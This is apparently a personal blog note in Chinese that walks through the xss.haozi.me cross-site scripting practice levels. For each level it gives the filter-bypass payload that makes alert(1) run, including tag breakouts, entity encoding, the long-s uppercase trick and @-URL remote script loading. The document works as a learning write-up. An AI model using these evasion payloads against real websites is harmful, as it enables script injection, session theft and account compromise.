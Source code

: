 ```yaml
---
layout: default
title: ssh_notes
categories:
- xss
tags:
- xss
---
```

//Description: 通过xss攻击学习xss的一点笔记

//Create Date: 2020-02-20 00:09:20

//Author: channy

# ssh_notes

[练习页面](https://xss.haozi.me/)

前言：做了两题终于弄明白，目标是要使页面显示"alert(1)"

0. 直接输入"alert(1)"?

```xss
<script>alert(1)</script>
```

1. 类似于xml,匹配去掉前面的\<textarea>

```xss
</textarea><script>alert(1)</script>
```

3. 括号闭合去掉前面的input

```xss
"><script>alert(1)</script>
```

4. html: #40; -> ( ; #41 -> ) .

```xss
<img src="" onerror="alert&#40;1&#41;"/>
```

5. 

```xss
--!><img src="" onerror="alert&#40;1&#41;"/>
```

6. 一定要image吗？前面的script怎么改？换行可以

```xss
type="image" src="" onerror
="alert(1)"
```

7. 要与stripTagsRe匹配上才replace,所以不加右括号

```xss
<img src="" onerror="alert(1)"
```

8. 貌似基本思想就是尽力去掉前面的tag，后面就可以加自己的了

```xss
</style
><img src="x" onerror="alert(1);">
```

9. 输入需要包括domainRe的网址

```xss
https://www.segmentfault.com<img src="" onerror="alert(1)"
```

A. 一个知识点，就是@，如果你访问 www.baidu.com@www.google.com，那么你最后进入的是谷歌的界面。

这一关，就在自己的服务器上放一个js文件，写上“alert（1）”。

穷，没自己的服务器，测试不了了 

```xss
https://www.segmentfault.com@xss.haozi.me/j.js
```

B. HTML对大小写是不敏感的，但是JavaScript对大小写敏感

```xss
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

C. 同上

D. 注释只能注释掉一行

```xss

alert(1)
-->
```

E. 前面加了“<_”并转换成了大写

但是ſ大写后为S,且其ascii值不与s相等,因此可以绕过

```xss
<ſcript src="https://xss.haozi.me/j.js"></script>
```

F. 

```xss
');alert(1)//
```

10. --

```xss
alert(1)
```

11. 转义的转义

```xss
");alert(1)//
```

12. 

```xss
\");alert(1)//
```

[back](./)


